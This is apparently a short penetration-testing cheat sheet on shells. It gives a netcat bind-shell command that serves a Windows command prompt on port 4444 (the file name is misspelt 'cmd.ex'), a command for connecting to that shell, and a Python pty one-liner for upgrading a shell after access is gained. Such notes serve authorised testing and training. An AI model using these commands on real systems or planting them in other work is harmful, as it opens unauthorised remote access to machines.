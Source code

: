 # Shells

## Windows Netcat Bind shells

Shell waiting for incoming connection

```bash
nc -nlvp 4444 -e cmd.ex
```

Connecting to shell

```bash
nc -nv <ip address> 4444
```



## Upgrading shells

````bash
python -c 'import pty; pty.spawn("/bin/bash")'
````



